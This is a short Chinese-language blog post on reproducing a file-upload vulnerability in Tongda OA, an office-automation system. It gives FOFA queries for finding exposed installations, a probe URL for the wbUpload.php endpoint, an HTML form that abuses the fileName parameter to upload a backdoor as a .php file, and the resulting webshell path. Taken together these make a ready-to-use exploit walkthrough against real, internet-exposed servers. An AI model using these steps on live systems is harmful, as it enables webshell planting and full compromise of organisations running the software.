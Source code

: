﻿---
layout: post
title: 漏洞复现：通达oa文件上传
date: 2019-10-06
categories: blog
tags: [漏洞复现，通达oa]
description: 漏洞复现：通达oa
---

#### 一、目标
fofa搜索
- `title="网络智能办公管理系统"`
- `app="通达OA"`

- 测试是否存在上传漏洞
访问`[ip地址:端口]/general/vmeet/wbUpload.php`
响应200，则可能存在漏洞
![](https://upload-images.jianshu.io/upload_images/15634342-e6e853aa9618806b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- 在本地创建上传脚本为test.html，打开test.html上传后门
```
<form enctype="multipart/form-data" action="ip+端口/general/vmeet/wbUpload.php?fileName=test.php+" method="post">

<input type="file" name="Filedata" size="50"><br>

<input type="submit" value="Upload">

</form>
```
- 以ma.jpg形式上传，上传后自动帮你重命名为test.php，真是神奇，大概率存在其他洞洞
- 上传成功后webshell路径为
`ip+端口/general/vmeet/wbUpload/test.php`













